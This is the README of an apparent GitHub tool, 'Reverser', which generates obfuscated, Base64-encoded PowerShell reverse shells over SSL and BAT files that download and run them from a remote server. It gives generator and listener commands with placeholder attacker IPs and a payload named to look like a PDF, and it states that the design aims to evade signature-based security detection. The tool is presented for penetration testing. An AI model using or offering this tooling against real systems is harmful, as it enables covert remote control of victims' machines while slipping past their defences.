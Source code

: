 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.

Commands:
----

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)



Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)



Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:

![image](https://github.com/user-attachments/assets/049f45bf-f014-47d8-92ef-4514294745cf)




Receiving a response from the listener server and establishing a Reverse shell from the workstation:

![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)



The encrypted network traffic:

![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)



And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)




